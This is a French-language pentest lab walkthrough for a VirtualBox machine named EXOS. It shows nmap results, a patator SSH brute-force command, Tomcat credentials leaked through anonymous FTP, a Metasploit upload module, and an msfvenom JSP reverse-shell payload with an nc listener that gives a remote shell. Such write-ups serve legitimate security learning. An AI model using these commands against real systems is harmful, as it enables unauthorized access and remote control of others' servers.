

# EXOS

## Scans

### NMAP

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 09:45 CET
Nmap scan report for 192.168.56.10
Host is up (0.0016s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0            4096 Jan 09 11:43 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 bc:66:78:ef:d1:e6:f3:3b:76:27:ae:ab:48:21:83:0d (ECDSA)
|_  256 78:5b:b8:75:ce:67:63:04:92:4b:c3:20:99:24:e7:de (ED25519)
25/tcp    open  smtp    Postfix smtpd
|_smtp-commands: exos, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp    open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Exercices web
3306/tcp  open  mysql   MySQL 5.5.5-10.11.4-MariaDB-1~deb12u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.4-MariaDB-1~deb12u1
|   Thread ID: 104
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, SupportsTransactions, ODBCClient, Speaks41ProtocolNew, Support41Auth, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, IgnoreSigpipes, LongColumnFlag, FoundRows, ConnectWithDatabase, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolOld, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: +Jpu|2}Dz[6;elpnU>tP
|_  Auth Plugin Name: mysql_native_password
18080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
MAC Address: 08:00:27:42:EB:21 (Oracle VirtualBox virtual NIC)
Service Info: Host:  exos; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.31 seconds
```

## Bruteforce

### SSH

```bash
patator ssh_login host=exos user=FILE1 password=FILE0 1=pass.txt 0=user.txt -t 1 -x ignore:fgrep='failed.'
```

## Services

### FTP

#### Anonymous connexion authorized

```bash
.
└── backup
    ├── tomcat-users.xml
    └── vsftpd.conf
```

tomcat-users.xlm
```xml
...
<user username="tomcat" password="JimDog2023" roles="tomcat,manager-gui"/>
...
```
> tomcat:JimDog2023

### Apache

#### /manager

Accès grâce à tomcat:JimDog2023



##### Manière 1 : msfconsole

```
module_name : tomcat_mgr_upload
options :
    RHOST : exos
    RPORT : 80
    TARGETURI : /manager

    LHOST : 192.168.56.3
    LPORT : 1234

    HttpUsername : tomcat
    HttpPassword : JimDog2023
```

Mais cela ne fonctionne pas

##### Manière 2 : msfvenom

Génération d'un payload java :
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.3 LPORT=1234 -f war > shell.war
```

Ecoute sur notre machine
```
nc -lvnp 1234 
```

On upload le payload sur la plateforme, on accède ensuite à `{url}/shell` et on devrait avoir le reverse shell


## Commandes utiles :

### msfconsole

```bash
search module_name #seach for a specific module, here tomcat
use module_name #use a specific module
options #list the options of the module
set var_name var_value #set options
run #run the module

show payload
```
